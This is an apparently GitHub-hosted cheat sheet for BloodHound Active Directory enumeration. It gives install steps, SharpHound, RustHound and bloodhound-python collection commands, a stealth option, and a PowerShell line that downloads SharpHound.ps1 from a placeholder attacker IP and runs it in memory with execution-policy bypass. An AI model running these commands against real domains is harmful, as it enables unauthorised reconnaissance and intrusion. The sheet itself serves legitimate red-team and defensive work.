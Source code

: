 # Bloodhound

## Installation

    sudo apt-get install neo4j
    sudo apt-get install bloodhound

##### Run neo4j then bloodhound

    sudo neo4j console
    sudo blooudhound


## Commands:

    bloodhound-python -d DOMAIN -u USER -p PASSWORD -dc DC -c all

    rusthound -d DOMAIN_TO_ENUM -u 'USER@DOMAIN' -p 'PASSWORD' -o OUTFILE.TXT -z

    Import-Module sharphound.ps1; Invoke-bloodhound -collectionmethod all -domain DOMAIN

    sharphound.exe -c all -d DOMAIN

## More ingestors

##### Standard local execution
    
    ./SharpHound.exe --CollectionMethods All,GPOLocalGroup
    Invoke-BloodHound -CollectionMethod "All,GPOLocalGroup"
    Invoke-BloodHound -CollectionMethod All -CompressData -RemoveCSV
    Invoke-BloodHound -CollectionMethod LoggedOn

##### Specify different domain and run in stealth mode and collect only RDP data

    Invoke-BloodHound --d <Domain> --Stealth --CollectionMethod RDP

##### Run in context of different user

    runas.exe /netonly /user:domain\user 'powershell.exe -nop -exec bypass'

##### Download and execute in memory

    powershell.exe -exec Bypass -C "IEX(New-Object Net.Webclient).DownloadString('http://<IP>:/SharpHound.ps1');Invoke-BloodHound"

##### Metasploit

    use post/windows/gather/bloodhound       

## Purging Neo4j Database

    sudo rm -Rf /etc/neo4j/data/databases/* data/transactions/*
    sudo rm -Rf /etc/neo4j/data/transactions/*

